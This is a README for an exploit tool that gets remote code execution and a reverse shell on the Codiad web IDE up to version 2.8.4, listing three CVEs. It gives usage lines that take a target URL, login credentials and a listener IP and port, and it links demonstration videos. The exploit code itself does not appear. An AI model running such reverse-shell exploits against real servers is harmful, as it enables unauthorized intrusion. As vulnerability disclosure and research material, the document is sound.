# Codiad-Remote-Code-Execute-Exploit

#### Description
A simple exploit to execute system command on [Codiad](https://github.com/Codiad/Codiad)
This tool will exploit the vuln Codiad application to get a reverse shell

#### CVE
* CVE-2017-11366
* CVE-2017-15689
* CVE-2018-14009 (0 Day exploitation)

#### Effected Version
```
<=2.8.4 (latest version)
```

#### Effected Environment
```
Windows
Linux
```

#### Usage :
```
Usage : 
        python exploit.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python exploit.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python exploit.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python exploit.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        WangYihang <wangyihanger@gmail.com>
```

#### Example videos

* [【CVE-2018-14009】 Codiad (2.8.4) RCE on Windows machine](https://youtu.be/9eEWCOvx1YA)
* [【CVE-2018-14009】 Codiad (2.8.4) RCE on Linux machine](https://youtu.be/RL0Pkoge-xI)

#### Example GIFs

> Windows

![Windows](img/windows.gif)

> Linux

![Linux](img/linux.gif)


#### Acknowledgement
[@mhaskar](https://github.com/mhaskar) (Give suggestions for Windows platform exploitation)
